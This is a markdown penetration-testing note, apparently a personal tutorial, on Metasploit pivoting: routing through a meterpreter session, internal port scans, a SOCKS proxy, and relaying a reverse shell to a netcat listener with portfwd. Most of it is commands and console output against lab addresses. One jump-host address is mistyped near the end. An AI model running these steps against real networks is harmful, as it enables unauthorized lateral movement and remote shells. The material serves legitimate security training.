 # Metasploit Port Tunneling for exploitation

## Scenario 1: 
- The service of my target machine (10.10.1.10) is serving only at lo interface at 127.0.0.1:3306. It does not serve at 0.0.0.0:3306.
- I have an active meterpreter session for this machine.

Technique: Local Port Forwarding via meterpreter portfwd

(TODO)

## Scenario 2: 
- I have exploited a machine (10.10.1.10) that has access to another internal admin network on another network interface eth2 (172.16.1.10).
- I would like to perform port scanning on the intranet network.

Technique: Add Route, Add Socks proxy

```sh
msf6 > sessions

Active sessions
===============

  Id  Name  Type                   Information          Connection
  --  ----  ----                   -----------          ----------
  1         shell linux            SSH root @           10.10.1.32:35981 -> 10.10.1.10:22 (10.10.1.10)
  2         meterpreter x86/linux  root @ 172.16.1.100  10.10.1.32:4433 -> 10.10.1.10:43318 (10.10.1.10)
  
msf6 > route add 172.16.1.0/24 255.255.255.0 2
[*] Route added

msf6 > route get 172.16.1.2
172.16.1.2 routes through: Session 2
```
My active meterpreter session is at SESSION 2. Add a route with the following format: `route add <IP/CIDR> <SUBNET> <SESSION>`. 
Performing this will allow you to use metasploit modules to port scan the intranet network.

```
msf6 > use auxiliary/scanner/portscan/tcp 
msf6 auxiliary(scanner/portscan/tcp) > set RHOSTS 172.16.1.2
RHOSTS => 172.16.1.2
msf6 auxiliary(scanner/portscan/tcp) > set PORTS 80
PORTS => 80
msf6 auxiliary(scanner/portscan/tcp) > run

[+] 172.16.1.2:           - 172.16.1.2:80 - TCP OPEN
[*] 172.16.1.2:           - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
We can see perform port scan via metasploit module. However, we can further expand this to tools outside of metasploit by setting up a SOCKs proxy.

```
msf6 > use auxiliary/server/socks_proxy
msf6 auxiliary(server/socks_proxy) > set SRVHOST 127.0.0.1
SRVHOST => 127.0.0.1
msf6 auxiliary(server/socks_proxy) > set SRVPORT 9050
SRVPORT => 9050
msf6 auxiliary(server/socks_proxy) > set VERSION 5
VERSION => 5
msf6 auxiliary(server/socks_proxy) > run -j
[*] Auxiliary module running as background job 1.
[*] Starting the SOCKS proxy server
```
We set up a SOCK5 proxy and configure our `proxychains.conf` to use 127.0.0.1:9050.

```
(host)# proxychains curl -v http://172.16.1.2/ 
ProxyChains-3.1 (http://proxychains.sf.net)
*   Trying 172.16.1.2:80...
* Connected to 172.16.1.2 (127.0.0.1) port 80 (#0)
...
```
We have more flexibility with what tools to use with this Socks proxy set up. 

## Scenario 3:
- I have gained access to intranet admin web portal (172.16.1.2:80) via my exploited jump host (10.10.1.10 or 172.16.1.10) via Scenario 2.
- I found a vulnerability on 172.16.1.2:80
- I want to get a reverse connection back to my host machine (10.10.1.32) via tunneling through jump host at 172.16.1.10:4444.

Technique: portfwd reverse forwarding

```
msf6 post(multi/manage/sudo) > sessions -i 2
[*] Starting interaction with 2...

meterpreter > portfwd list

No port forwards are currently active.

meterpreter > portfwd add -R -L 10.10.1.32 -l 4443 -p 4444
[*] Reverse TCP relay created: (remote) :4444 -> (local) 10.10.1.32:4443

meterpreter > background

(host)# nc -nlvp 4443
```
portfwd is a meterpreter feature that supports relaying. We specify `-R` for reverse relaying. The `-L` option is the IP of host machine and `-l` is our netcat listener while `-p` will open a listening port on our jump host at `0.0.0.0:4444`.

```
(host)# proxychains exploit.sh --lhost=172.16.1.10 --lport=4444
```
We trigger our reverse shell to connect to our jumphost at 172.16.1.0:4444 which will get relayed back to our host's netcat. 

